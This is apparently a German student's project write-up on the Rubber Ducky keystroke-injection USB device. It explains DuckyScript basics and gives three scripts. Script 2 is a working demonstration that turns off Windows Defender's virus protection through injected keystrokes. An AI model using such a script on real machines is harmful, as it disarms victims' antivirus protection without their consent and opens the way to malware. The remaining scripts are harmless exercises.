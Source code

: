 # Dokumentation-Rubber Ducky

Als EK mit
dem Rubber Ducky habe ich die Eigenschaften des Gerätes kennengelernt und 3
Programme/Skripte geschrieben.

Der Rubber
Ducky ist ein Keystroke-Injection-Tool und wurde von Hak5 2010 auf den Markt
gebracht. Ich habe sogar die Neuversion des Geräts mit Duckyscript 3.0 (Das ist
die Programmiersprache für den Rubber Ducky und weiteren Geräten von Hak5).
Dieses Tool sieht für einen Menschen wie ein normaler USB-Stick aus, wird aber
von Computern oder anderen Geräten als eine Tastatur erkannt. So kann man mit
DuckyScript ein Programm erstellen, das eine bestimmte Folge von Tastenschlägen
auf der Tastatur ausübt, und das in sehr hoher Geschwindigkeit. Das wird aber
auch von Hackern genutzt, um schnell und unauffällig beispielsweise Malware auf
den Rechner seines Opfer herunterzuladen. Ursprünglich hat der Entwickler
Darren Kitchen dieses Werkzeug erfunden, um seinen kaputten Drucker zu
reparieren. Heute ist es als bekanntes Hacking-Tool bekannt und ist legal, da
er nicht nur für böse Zwecke genutzt werden kann.

## Grundbefehle von DuckyScript

**REM:** REM wird für Kommentare
benutzt.

Bsp: *REM Das ist ein Kommentar*

**STRING:** Nach einem String werden
festgelegte Tasten betätigt.

Bsp: *STRING Hello, World!*     ß(Es wird „Hello, World!“ getippt)

**STRINGLN:** Wie ein String, nur,
dass danach die Entertaste betätigt wird.

Bsp: *STRINGLN google.com*   ß(Beispielsweise
würde hier wenn man in einem Browser wäre, google.com eingegeben und gesucht
werden)

Außerdem gibt es noch für
jede eigene Taste einen Befehl wie: **ENTER**, **GUI/WINDOWS**, **ALT,
CTRL**, **F4**, **F8** u.s.w.

## Skript 1:

```
REM Author Christian Parushev
REM Google wird per Kommandozeile
REM geöffnet danach youtube.com aufgerufen
REM und ein Video abgespielt.

REM Ducky wird in den "Attackiermodus" eingestellt
ATTACKMODE HID

REM mit Windows r die Kommandozeile öffnen
WINDOWS r
DELAY 200
STRINGLN start Chrome

REM Youtubelink wird eingegeben
STRINGLN https://www.youtube.com/watch?v=zhEWqfP6V_w&t=5s&ab_channel=FIFA
```

**Attackmode HID** bedeutet hier, dass nach dem
reinstecken des Sticks gleich der „Attackiermodus“ eingeschaltet wird und man
einen Button im Ducky extra drücken muss, falls man den Ducky als USB-Stick
erkannt haben will. Danach wird mittels Windows r das „Ausführen-Fenster“ und
die Kommandozeile ausgeführt. Darin wird Chrome gestartet und dann in Google
die URL eingegeben. Die Delays sind dafür da, etwas u warten falls der Rechner
länger lädt um etwas zu öffnen.

## Skript 2:

```
REM Author Christian Parushev
REM Windows-Defender wird deaktiviert


REM Windows-Sicherheit öffnen
DELAY 1000
GUI s
DELAY 750
STRING Windows-Sicherheit
ENTER
DELAY 200

REM zu Viren- und Bedrohungsschutz und ausschalten
ENTER
DELAY 500
ENTER
DELAY 500
TAB
TAB
TAB
TAB
DELAY 500
ENTER
DELAY 500
REM Virenschutz deaktivieren
SPACE
DELAY 500
REM Bestätigen mit linker Maustaste und Enter
LEFTARROW
ENTER
DELAY 500
REM Programm schließen
ALT F4
```

<style>
</style>

Da der Ducky
auch für böse Zwecke genutzt werden kann, wollte ich auch so eine Art der
Einsetzung demonstrieren. In diesem Programm wird der Windows-Defender geöffnet
und der Virenschutz ausgeschaltet. Mit Windows-s wird einfach die Sucheingabe
geöffnet und danach der Windows-Defender mittels der Eingabe
„Windows-Sicherheit“. Der Virenschutz wird ausgewählt und mit der TAB-Taste zum
jeweiligen „Link“ für das Ausschalten. Danach wird die Space-Taste betätigt um
den Virenschutz auszuschalten und mit der linken Pfeiltaste und Enter das
Deaktivieren bestätigt. Zum Schluss wird der Defender noch geschlossen.

## Skript 3:

```
REM Überprüfung ob Capslock eingeschaltet ist
REM falls ja soll es ausgeschaltet werden
DELAY 500
IF ($_CAPSLOCK_ON == TRUE) THEN
    CAPSLOCK
END_IF

REM Int-Variablen für Laenge und Breite
VAR $Lang = 5
VAR $Breit = 3

REM Zaehler für die Breite
VAR $BreitZaehler = 0
VAR $LangZaehler = 0
REM Schleife für die erstellung des Rechtecks
DELAY 200
WHILE($BreitZaehler < $Breit)
    WHILE($LangZaehler < $Lang)
        REM Als Dreieck werden Sterne eingetippt
        STRING *
        DELAY 500
        $LangZaehler = ($LangZaehler + 1)
    END_WHILE
    ENTER
    $BreitZaehler = ($BreitZaehler + 1)
    $LangZaehler = 0
END_WHILE

ENTER
ENTER

STRING Dieses Dreieck wurde automatisch erstellt

REM Abschicken der E-Mail
TAB
ENTER
```

In diesem Programm wird normal wie bei den anderen
Chrome und danach G-Mail geöffnet und mit den Tabs eine Neue Mail an mich mit
einem passenden Betreff erstellt. Danach habe ich 2 Variablen für Breite und
Länge erstellt und mittels 2 WHILE-Schleifen ein Dreieck mit der Länge 5 und
breiter 3 eingetippt und noch eine „kurze Erklärung“ erstellt. Davor noch eine
IF-Bedingung falls der CAPSLOCK and ist, dass er ausgeschaltet werden soll. schlussendlich
wird er dann an mich geschickt.
